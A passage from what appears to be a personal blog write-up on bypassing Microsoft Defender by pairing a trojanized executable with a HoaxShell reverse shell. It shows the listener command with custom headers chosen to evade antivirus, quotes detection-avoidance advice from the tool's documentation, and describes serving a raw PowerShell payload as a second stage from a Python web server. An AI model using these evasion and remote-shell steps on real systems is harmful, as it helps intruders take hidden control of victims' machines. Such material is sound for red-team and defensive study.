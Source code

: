 After that, I started HoaxShell listening on port 443:
```sh
hoaxshell -s 192.168.182.128 -c /home/MrTiz/DefenderBypass/certs/cert.pem -k /home/MrTiz/DefenderBypass/certs/key.pem -H 'ms-commit-id' -r
```
![](/assets/img/defender-evasion-shellter-hoaxshell/hoaxshell1.png)

Again, the choice to use `ms-commit-id` as a header in HTTPS traffic is only to slightly increase the stealthiness of the attack, but again, this is an optional parameter. In any case, I find in the HoaxShell documentation that avoiding using the random headers used by default by HoaxShell can make life a little more difficult for AVs:

```
- Recommended usage to avoid detection (over http):

     # Hoaxshell utilizes an http header to transfer shell session info. By default, the header is given a random name which can be detected by regex-based AV rules.
     # Use -H to provide a standard or custom http header name to avoid detection.
     hoaxshell -s <your_ip> -i -H "Authorization"
```
The use of a raw PowerShell payload also demonstrated much greater stealthiness than encoded PowerShell payloads.

I saved the PowerShell payload in a `.ps1` file and put a simple Python web server listening, ready to deliver the script in a second stage. This way, I avoided embedding a HoaxShell payload inside my executable that I'm going to trojanize. By doing this, I should be able to pass the static analysis of most anti-malware.
